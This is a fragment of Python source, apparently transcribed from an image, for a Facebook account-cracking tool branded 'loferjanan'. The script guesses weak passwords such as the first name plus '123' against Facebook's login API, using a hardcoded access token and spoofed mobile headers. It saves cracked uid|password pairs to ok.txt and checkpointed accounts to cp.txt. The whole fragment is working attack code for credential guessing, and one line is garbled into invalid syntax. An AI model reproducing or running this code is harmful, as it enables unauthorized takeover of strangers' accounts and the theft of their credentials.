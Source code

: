 				ok = open("ok.txt"loferjanan💖, "a")

				ok.write(uid+"|"+pass1+"\n")

				ok.close()

				oks.append(uid+pass1)

			else:

				if "www.facebook.com" in data.json()['error_msg']:

					print(" \033[1;33m[loferjanan-CP] "+uid+" | "+pass1+"\033[0;97m")

					cp = open("cp.txt", "a")

					cp.write(uid+"|"+pass1+"\n")

					cp.close()

					cps.append(uid+pass1)

				else:

					pass2 = name.lower().split(' ')[0] + '123'

					api = 'https://b-api.facebook.com/method/auth.login'

					params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass2, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}

					headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _azimua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}

					data = requests.get(api, params=params, headers=headers_)

					if "access_token" in data.text and "EAAA" in data.text:

						print(" \033[1;32m[loferjanan-OK] "+uid+" | "+pass2+"\033[0;97m")

						ok = open("ok.txt", "a")

						ok.write(uid+"|"+pass2+"\n")

						ok.close()

						oks.append(uid+pass2)

					else:

						if "www.facebook.com" in data.json()['error_msg']:

							print(" \033[1;33m[loferjanan-CP] "+uid+" | "+pass2+"\033[0;97m")

							cp = open("cp.txt", "a")

							cp.write(uid+"|"+pass2+"\n")

							cp.close()

							cps.append(uid+pass2)
